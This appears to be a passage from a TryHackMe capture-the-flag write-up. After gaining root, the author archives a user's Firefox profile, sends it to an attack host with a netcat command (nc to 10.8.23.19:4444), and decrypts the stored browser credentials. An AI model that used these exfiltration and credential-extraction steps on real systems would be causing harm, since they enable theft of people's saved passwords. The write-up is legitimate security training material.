 ```bash
total 52
<SNIP>
-rw-rw-r--  1 root root   27 Sep 18  2023 .root.txt
<SNIP>
```

With this, we have obtained a root shell on the target and we can read the root flag. The last task is to identify the password of the user Charle. Before we attempt to crack the password in the /etc/shadow file, let's first enumerate the user's home directory.
```bash
root@london:/tmp/CVE-2018-18955-main# ls -la  /home/charles/
total 24
<SNIP>
drw------- 3 charles charles 4096 Mar 16  2024 .mozilla
-rw------- 1 charles charles  807 Mar 10  2024 .profile
```

This user's home directory contains the .mozilla folder. This folder contains login credentials stored by the Mozilla browser. Let's archive this file and send it to our attack host to extract the passwords.
```bash
root@london:/home/charles/.mozilla# tar -czf /tmp/firefox.tar.gz firefox/
```

After we have archived the file, we can start the listener on our attack host and send the file from the target to our attack host
```bash
┌──(pentester㉿kali)-[~/…/TryHackMe/Challenge/The London Bridge/Misc File]
└─$ nc -lvnp 4444 > firefox.tar.gz
listening on [any] 4444 ...
```

```bash
root@london:/home/charles/.mozilla# nc -q 0 10.8.23.19 4444 < /tmp/firefox.tar.gz 
root@london:/home/charles/.mozilla# 
```

Now that we have the file on our attack host, we can de-archive it and use the Python [firefox_decryptor](https://raw.githubusercontent.com/unode/firefox_decrypt/refs/heads/main/firefox_decrypt.py) script to extract credentials stored in the browser's database.
```bash
┌──(pentester㉿kali)-[~/…/TryHackMe/Challenge/The London Bridge/Misc File]
└─$ tar -xf firefox.tar.gz  

┌──(pentester㉿kali)-[~/…/TryHackMe/Challenge/The London Bridge/Misc File]
└─$ chmod -R 755 firefox
┌──(pentester㉿kali)-[~/…/TryHackMe/Challenge/The London Bridge/Misc File]
└─$ python3 /opt/firefox_decryptor.py firefox/8k3bf3zp.charles/
2024-09-29 11:53:15,686 - WARNING - profile.ini not found in firefox/8k3bf3zp.charles/
2024-09-29 11:53:15,688 - WARNING - Continuing and assuming 'firefox/8k3bf3zp.charles/' is a profile location

Website:   https://www.buckinghampalace.com
Username: 'Charles'
Password: <REDACTED>
```
